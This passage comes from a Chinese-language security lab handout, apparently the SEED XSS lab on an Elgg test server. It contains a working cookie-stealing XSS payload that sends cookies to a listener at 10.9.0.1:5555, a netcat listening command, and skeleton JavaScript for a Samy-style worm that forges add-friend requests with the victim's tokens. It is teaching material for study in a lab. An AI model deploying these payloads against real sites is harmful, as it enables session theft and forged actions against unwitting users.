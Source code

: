 ```
<script>document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + ' >');</script>
```

攻击者常用的一个程序是 netcat（或nc），如果以 “-l” 选项运行，它将成为一个在指定端口上监听连接的 TCP 服务器。这个服务器程序基本上会打印出客户端发送的任何内容，并将服务器用户键入的内容发送给客户端。键入以下命令以在 5555 端口上监听：

```
$ nc -lknv 5555
```

!!! info "提示 :sparkles:"
    -l 选项用于指定nc应该监听传入的连接，而不是启动到远程主机的连接。-nv 选项用于使nc给出更详细的输出。-k 选项意味着当一个连接完成后，继续监听另一个连接。

请将你观察到的信息截图贴到报告中。

## 任务4：成为受害者的朋友

在这一项和下一项任务中，我们将执行类似于 2005 年 Samy 对 MySpace 进行的攻击（即 Samy 蠕虫病毒）。我们将编写一个跨站脚本（XSS）蠕虫病毒，该病毒会将访问 Samy 页面的任何其他用户添加 Samy 为好友。这种蠕虫病毒不会自我传播；在任务6中，我们将使其具有自我传播能力。

在这项任务中，我们需要编写一个恶意的 JavaScript 程序，该程序能够直接从受害者的浏览器中伪造HTTP请求，而无需攻击者的干预。攻击的目的是将Samy添加为受害者的好友。我们已经在 Elgg 服务器上创建了一个名为 Samy 的用户（用户名为 samy ）。

为了给受害者添加好友，我们首先应该了解合法用户在 Elgg 中如何添加好友。更具体地说，我们需要弄清楚当用户添加好友时，会向服务器发送什么信息。Firefox 的HTTP 开发工具可以帮助我们获取这些信息。它可以显示从浏览器发送的任何 HTTP 请求消息的内容。从内容中，我们可以识别请求中的所有参数。下面三幅图显示如何打开这个工具并查看具体消息的参数。

<center><img src="../assets/5.png" width = 600></center>

<center><img src="../assets/7.png" width = 600></center>

<center><img src="../assets/11.png" width = 600></center>


一旦我们了解了添加好友的HTTP请求是什么样的，我们就可以编写一个 JavaScript 程序来发送相同的 HTTP 请求。我们提供了一个框架 JavaScript 代码，以帮助完成任务。

下面 firend = 56 这个 id 的值要根据实际用户的 id 替换，可以参上图中的具体信息，里面有 id 的值。

```
<script type="text/javascript">
window.onload = function () {
    var Ajax = null;
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

  	var sendurl = "http://www.seed-server.com/action/friends/add?friend=56" + ts + token; 
	Ajax = new XMLHttpRequest();
	Ajax.open("GET", sendurl, true);
	Ajax.setRequestHeader("Host", "www.seed-server.com");
	Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
	Ajax.send();
}
</script>
```

上述代码应放置在 Samy 个人资料页面的 “About me” 字段中。此字段提供两种编辑模式：编辑器模式（默认）和文本模式。编辑器模式会在输入到字段中的文本中添加额外的 HTML 代码，而文本模式则不会。由于我们不想在攻击代码中添加任何额外的代码，因此在输入上述JavaScript代码之前，应启用文本模式。这可以通过点击“About me”文本字段右上角的 “HTML editor” 编程 “Visual editor”来完成。
